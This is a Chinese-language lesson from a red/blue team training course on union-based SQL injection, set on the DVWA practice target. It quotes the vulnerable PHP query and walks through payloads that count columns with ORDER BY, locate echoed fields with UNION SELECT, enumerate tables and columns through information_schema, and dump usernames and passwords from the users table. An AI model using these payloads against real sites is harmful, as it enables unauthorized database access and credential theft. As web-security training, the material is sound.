# 护网行动红蓝攻防教程：P56：08_联合查询注入的作用 🎯

在本节课中，我们将要学习SQL注入攻击中的一种核心技术——联合查询注入。我们将从理解其原理开始，逐步学习如何利用联合查询来获取数据库中的敏感信息，包括数据库名、表名、列名以及具体的数据内容。课程内容将结合代码示例和实战步骤，确保初学者能够清晰掌握。

---

## 联合查询注入的原理与条件



上一节我们介绍了SQL注入的基本概念。本节中我们来看看联合查询注入的具体原理和产生的必要条件。



SQL注入产生的条件是：Web程序接收用户的输入，并且用户的输入不再是原本的参数，而是变成了SQL语句中合法语法的一部分。

观察以下DVWA靶场的SQL注入漏洞源代码：
```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
```
这段代码接收一个名为`id`的参数，未做任何安全检查，直接将其拼接进SQL查询语句中并执行。用户的输入`$id`被单引号包裹，并成为`WHERE`子句的一部分。这完全符合SQL注入的产生条件。

---

## 判断注入点类型（字符型 vs 数字型）

在利用注入点之前，需要判断其类型，即判断用户输入是否被引号包裹。



以下是判断方法的核心思路：
*   **字符型**：输入被单引号 `‘` 或双引号 `“` 包裹。例如：`WHERE user_id = ‘$id’`。
*   **数字型**：输入未被引号包裹。例如：`WHERE user_id = $id`。

我们可以通过构造特殊的输入来测试：
1.  输入 `1‘ and ‘1’=’2`。如果页面返回空或错误，说明可能存在注入。
2.  输入 `1‘ or ‘1234’=’1234`。如果页面返回了更多数据（例如所有用户信息），则说明：
    *   SQL注入存在。
    *   注入点为**字符型**，因为我们的输入成功闭合了前面的单引号，并使 `or ‘1234’=’1234` 这个恒真条件生效。



---







## 前期准备：查询字段数与确定回显位

在开始联合查询前，我们需要进行两项关键准备：**查询原始SQL语句的字段数**和**确定哪些字段的内容会在页面回显**。



### 1. 使用 ORDER BY 查询字段数





`ORDER BY` 子句用于根据指定列排序结果。我们可以通过 `ORDER BY n` 来探测查询结果共有多少列（字段）。



**操作步骤如下：**
1.  构造输入：`1‘ order by 1 -- `。`--` 是注释符，用于注释掉SQL语句末尾可能存在的单引号，避免语法错误。
2.  逐渐增加数字n（如2, 3, 4...），直到页面报错（例如：`Unknown column ‘3’ in ‘order clause’`）。
3.  最后一个成功的数字n，就是原始查询的字段数。例如，`order by 2` 成功而 `order by 3` 失败，则字段数为 **2**。



### 2. 使用 UNION SELECT 确定回显位

`UNION` 操作符用于合并两个或多个 `SELECT` 语句的结果集。**关键规则是：每个 `SELECT` 语句必须拥有相同数量的列。**

**操作步骤如下：**
1.  已知字段数为2后，构造输入：`1‘ union select 1,2 -- `。
2.  观察页面回显。如果页面上显示了数字“1”和“2”，则说明这两个位置都会回显数据。
3.  我们后续就可以将想要查询的信息（如数据库名），放在这些会回显的位置上。

---

## 实战利用：获取数据库信息

完成前期准备后，我们就可以利用联合查询逐步获取数据库信息。数据库的结构通常是：**数据库 -> 表 -> 列 -> 数据**。

以下是按层次获取信息的步骤：

### 1. 获取当前数据库名
使用 `database()` 函数。
*   **构造Payload**：`-1‘ union select 1, database() -- `
*   **解释**：`-1‘` 确保前一个 `SELECT` 查询无结果，使得 `UNION` 后的结果能显示在页面首位。`database()` 函数返回当前数据库名称。

### 2. 获取数据库中的所有表名
查询 `information_schema.tables` 系统表。
*   **构造Payload**：`-1‘ union select 1, group_concat(table_name) from information_schema.tables where table_schema=database() -- `
*   **解释**：
    *   `information_schema.tables` 存储了所有表的信息。
    *   `table_schema=database()` 条件限定只查询当前数据库的表。
    *   `group_concat()` 函数将所有的表名合并成一行字符串返回，方便查看。

### 3. 获取指定表的所有列名
查询 `information_schema.columns` 系统表。
*   **构造Payload**：`-1‘ union select 1, group_concat(column_name) from information_schema.columns where table_name=‘users’ -- `
*   **解释**：查询名为 `users` 的表中的所有列名（字段名）。

### 4. 获取表内的具体数据
直接查询目标表和列。
*   **构造Payload**：`-1‘ union select user, password from users -- `
*   **解释**：从 `users` 表中查询 `user` 和 `password` 列的数据。至此，我们已成功获取到核心数据。

---

## 关键技巧与补充说明

在实战中，可能会遇到一些限制，以下是应对技巧：

*   **确保UNION查询结果前置**：通过让原查询条件为假（如 `id=’-1’`），使原 `SELECT` 结果为空，从而让 `UNION` 后的查询结果显示在页面最前面。
*   **处理多行结果回显限制**：如果页面只回显第一行数据，可以使用 `LIMIT` 子句逐行查看。
    *   **示例**：`-1‘ union select user, password from users limit 0,1 -- ` （查看第1行）
    *   **示例**：`-1‘ union select user, password from users limit 1,1 -- ` （查看第2行）

---

## 总结

本节课中我们一起学习了联合查询注入的完整流程。





1.  **原理**：利用未过滤的用户输入拼接SQL语句，构造 `UNION` 查询。
2.  **步骤**：
    *   判断注入点类型（字符/数字）。
    *   使用 `ORDER BY` 猜解字段数。
    *   使用 `UNION SELECT` 确定数据回显位。
    *   利用系统表 (`information_schema`) 逐步获取数据库名、表名、列名。
    *   最终查询目标表，获取具体数据。
3.  **核心函数与语句**：`database()`, `group_concat()`, `information_schema.tables/columns`, `UNION SELECT`, `LIMIT`。



联合查询注入是一种高效、直接的信息获取手段，是SQL注入攻击中的基础且重要的技术。理解并掌握其流程，对于学习Web安全至关重要。